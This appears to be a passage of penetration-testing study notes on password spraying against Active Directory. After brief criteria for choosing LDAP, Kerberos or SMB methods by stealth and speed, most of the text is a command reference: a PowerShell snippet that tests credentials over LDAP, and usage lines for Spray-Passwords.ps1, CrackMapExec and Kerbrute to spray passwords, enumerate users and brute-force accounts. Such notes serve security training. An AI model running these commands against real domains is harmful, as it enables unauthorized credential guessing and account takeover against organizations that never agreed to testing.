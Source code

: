 ### Attack Strategy Considerations

**Method Selection Criteria:**
1. **Stealth Requirements**: LDAP or Kerberos for low-noise operations
2. **Speed Priority**: Kerberos for rapid credential validation
3. **Administrative Discovery**: SMB for immediate privilege assessment
4. **Policy Compliance**: LDAP-based tools respect account lockout policies

**Username Enumeration Integration:**
- **Manual Lists**: Created from previous enumeration activities
- **Built-in Enumeration**: Tools with integrated user discovery
- **AD Enumeration**: Leverage techniques from previous modules
- **OSINT Sources**: External intelligence gathering

### Password Spraying Commands Reference

**LDAP-Based Attack (Manual):**
```powershell
# Dynamic LDAP path construction
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://$PDC/DC=$($domainObj.Name.Replace('.', ',DC='))"

# Test single credential
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "<username>", "<password>")
```

**Spray-Passwords.ps1:**
```powershell
# Single password spray
.\Spray-Passwords.ps1 -Pass <password>

# Wordlist-based spray
.\Spray-Passwords.ps1 -File <wordlist_file>

# Include administrative accounts
.\Spray-Passwords.ps1 -Pass <password> -Admin
```

**CrackMapExec:**
```bash
# Single user/password test
crackmapexec smb <target_ip> -u <username> -p '<password>' -d <domain>

# User list password spray
crackmapexec smb <target_ip> -u <user_file> -p '<password>' -d <domain> --continue-on-success

# Multiple passwords against single user
crackmapexec smb <target_ip> -u <username> -p <password_file> -d <domain>
```

**Kerbrute:**
```powershell
# Password spray attack
.\kerbrute_windows_amd64.exe passwordspray -d <domain> <user_file> "<password>"

# User enumeration
.\kerbrute_windows_amd64.exe userenum -d <domain> <user_file>

# Brute force attack
.\kerbrute_windows_amd64.exe bruteuser -d <domain> <password_file> <username>
```
